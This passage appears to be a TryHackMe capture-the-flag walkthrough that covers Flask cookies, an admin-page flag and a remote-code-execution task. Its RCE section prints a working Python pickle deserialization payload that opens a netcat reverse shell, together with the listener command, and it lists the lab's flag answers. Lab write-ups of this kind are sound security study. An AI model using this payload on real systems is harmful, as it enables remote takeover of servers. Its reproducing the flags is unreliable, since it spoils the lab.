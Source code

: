 Setting cookies in Flask is rather trivial. Simply, this snippet gets the current date and time, stores it within the variable "timestamp" and then stores the date and time in a cookie named "registrationTimestamp". This is what it will look like in the browser.

Cookies Practical

_**\#1st flag \(cookie value\)**_

Look at the cookie then decode base64 cookie then I got the flag

Flag: `THM{good_old_base64_huh}`

_**\#2st flag \(admin dashboard\)**_

Direct to [http://MACHINE\_IP/admin](http://10.10.104.96/admin) to get the flag

Flag: `THM{heres_the_admin_flag}`

#### Remote Code Execution \(RCE\)

_**\#1 flag.txt**_

Just follow the guide in the room -\_-

```bash
root@kali:~# nc -lvnp 4444
```

```python
// this is content of rce.py
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

```bash
root@kali:~! python3 rce.py
```

After run `rce.py` file I've got shell then look for flag.txt in `/home/cmnatic/flag.txt`

Flag: `4a69a7ff9fd68`

## Day 9 - Components With Known Vulnerabilities

Occasionally, you may find that the company/entity that you're pen-testing is using a program that already has a well-documented vulnerability.

For example, let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan, you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution \(RCE\) exploit, and even better you can find an exploit already made on exploit-db.
